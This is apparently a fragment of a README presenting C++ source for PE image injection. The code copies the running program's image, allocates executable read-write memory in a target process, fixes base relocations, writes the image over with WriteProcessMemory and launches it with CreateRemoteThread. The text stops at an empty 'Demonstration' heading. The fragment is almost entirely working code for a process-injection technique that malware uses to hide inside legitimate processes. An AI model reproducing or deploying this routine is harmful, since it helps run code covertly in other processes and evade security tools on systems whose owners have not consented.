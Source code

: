 ```cpp
	// Allocate a new memory block and copy the current PE image to this new memory block
	PVOID lImage = VirtualAlloc(NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_READWRITE);
	memcpy(lImage, imageBase, ntHeader->OptionalHeader.SizeOfImage);

	// Allote a new memory block in the target process. This is where we will be injecting this PE
	PVOID tImage = VirtualAllocEx(hExp, NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	// Calculate delta between addresses of where the image will be located in the target process and where it's located currently
	DWORD_PTR deltaBase = (DWORD_PTR)tImage - (DWORD_PTR)imageBase;

	// Relocate localImage, to ensure that it will have correct addresses once its in the target process
	PIMAGE_BASE_RELOCATION relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)lImage + ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);
	DWORD relocationEntriesCount = 0;
	PDWORD_PTR patchedAddress;
	PBASE_RELOCATION_ENTRY relocationRVA = NULL;

	while (relocationTable->SizeOfBlock > 0)
	{
		relocationEntriesCount = (relocationTable->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(USHORT);
		relocationRVA = (PBASE_RELOCATION_ENTRY)(relocationTable + 1);

		for (short i = 0; i < relocationEntriesCount; i++)
		{
			if (relocationRVA[i].Offset)
			{
				patchedAddress = (PDWORD_PTR)((DWORD_PTR)lImage + relocationTable->VirtualAddress + relocationRVA[i].Offset);
				*patchedAddress += deltaBase;
			}
		}
		relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)relocationTable + relocationTable->SizeOfBlock);
	}

	// Write the relocated localImage into the target process
	WriteProcessMemory(hExp, tImage, lImage, ntHeader->OptionalHeader.SizeOfImage, NULL);

	// Start the injected PE inside the target process
	CreateRemoteThread(hExp, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)self + deltaBase), NULL, 0, NULL);

	return 0;
}

```
## Demonstration
